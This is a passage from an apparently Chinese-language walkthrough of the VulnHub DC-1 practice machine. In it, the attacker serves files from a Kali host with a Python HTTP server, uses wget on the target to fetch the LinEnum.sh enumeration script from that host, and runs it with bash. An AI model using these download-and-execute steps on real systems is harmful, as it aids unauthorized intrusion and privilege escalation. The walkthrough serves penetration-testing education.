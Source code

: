 ```bash
python -m SimpleHTTPServer 8080
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC1/12.png)

```bash
wget http://192.168.141.134:8080/LinEnum/LinEnum.sh
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC1/13.png)

从 kali 上下好后直接运行
```bash
bash LinEnum.sh
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC1/14.png)
